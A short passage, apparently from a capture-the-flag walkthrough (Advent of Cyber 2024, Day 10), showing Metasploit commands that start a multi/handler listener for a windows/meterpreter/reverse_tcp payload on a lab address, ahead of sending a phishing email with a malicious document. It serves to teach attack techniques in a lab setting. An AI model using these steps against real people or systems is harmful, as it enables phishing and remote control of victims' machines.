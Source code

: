    Now we can send this document via email, but first we should setup a listener on the correct port. Notice that the payload needs to be set.

   ```cmd
   use multi/handler

   set LHOST 10.11.101.240
   set LPORT 1337
   set payload windows/meterpreter/reverse_tcp

   run
   ```

   ![Listener](Pictures/Advent_of_Cyber_2024_Day_10_Listener.png)

   Now we can login to the mail server to send our phishing mail.
